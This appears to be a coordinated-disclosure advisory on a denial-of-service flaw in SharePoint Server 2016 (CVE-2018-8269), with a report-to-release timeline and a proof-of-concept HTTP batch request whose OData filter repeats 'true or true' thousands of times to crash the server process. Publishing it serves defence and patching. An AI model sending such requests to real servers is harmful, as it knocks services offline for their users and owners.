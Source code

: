 ```yaml
---
layout: vuln
credit: gilm
timeline:
    - type: 'report'
      date: '2018-07-18'
      arg: 'Microsoft Security Response Center'
    - type: 'deadline-extension-offer'
      date: '2018-10-10'
      arg: 'I don&#39;t have an ETA for when their investigation will complete. I will contact you early next week to provide an update.'
    - type: 'deadline'
      date: '2018-10-15'
    - type: 'release'
      date: '2018-10-22'


product: SharePoint Server 2016
severity: 'high'
alephid: ALEPH-2018002
date: '2018-10-22'
references:
    - src: 'OData Denial of Service Vulnerability'
      url: 'https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8269'
  
title: 'DOS Vulnerability in SharePoint 2016 Server'

---
```


A vulnerability in Microsoft SharePoint Server could allow a remote attacker to make the server unavailable.

The vulnerability is a result of the dependency SharePoint has in `Microsoft.Data.OData` library which was vulnerable to remote DOS (See @CVE-2018-8269).

The exploit is done by sending a crafted request that contains an OData filter that triggers the vulnerability in Microsoft.Data.OData library. Sending such request, will terminate the process that runs the server.

By default, SharePoint server is configured to recover a terminated process, but it will do so only 10 times.
If more than 10 malicious requests are sent in 5 minutes interval, the server will not recover and will be down until it is manually restarted.

## Proof Of Concept ##
Following is a sample HTTP request that can be used for such attack.
```http
POST /_api/$batch HTTP/1.1
Host: test-server
X-RequestDigest: XXXXX
Authorization: Basic XXXXX
content-type: multipart/mixed; boundary=batch_312b6c52-0483-45b9-9133-91be5d91edb9
Content-Length: 49012

--batch_312b6c52-0483-45b9-9133-91be5d91edb9
Content-type: application/http
Content-Transfer-Encoding: binary

GET http://test-server/_api/web/lists?$filter=true+or+true+or+true+ … (~ 6100 repetitions) HTTP/1.1
accept: application/json;odata.metadata=minimal

--batch_312b6c52-0483-45b9-9133-91be5d91edb9--
```

